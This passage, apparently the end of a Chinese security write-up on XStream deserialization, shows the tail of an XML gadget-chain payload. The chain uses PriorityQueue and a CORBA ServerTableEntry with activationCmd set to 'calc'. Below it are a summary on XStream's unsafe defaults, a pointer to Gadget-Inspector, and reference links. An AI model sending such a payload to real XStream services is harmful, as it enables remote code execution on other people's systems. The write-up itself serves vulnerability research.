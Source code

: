 ```xml
                                                    <string>UTF-8</string>
                                                </localNames>
                                            </nameList>
                                        </context>
                                    </bridge>
                                </bridge>
                                <jaxbObject class="com.sun.corba.se.impl.activation.ServerTableEntry" >
                                    <activationCmd>calc</activationCmd>
                                </jaxbObject>
                            </dataSource>
                        </message>
                        <satellites/>
                        <invocationProperties/>
                    </packet>
                </indexMap>
            </comparator>
        </default>
        <int>3</int>
        <string>javax.xml.ws.binding.attachments.inbound</string>
        <string>javax.xml.ws.binding.attachments.inbound</string>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>

```

### 总结

由于XStream强大又危险的安全特性，且社区不对三方件的黑名单进行维护，无论产品使用什么版本的XStream，只要没开启默认安全配置，都将是不安全的，可以结合Gadget-Inspector来寻找可利用的Gadget链，同时该工具也可以用于寻找其他类型的反序列化Gadget。

### Reference

https://github.com/threedr3am/gadgetinspector

https://xz.aliyun.com/t/7063

https://xz.aliyun.com/t/7058

https://paper.seebug.org/1034/#_13

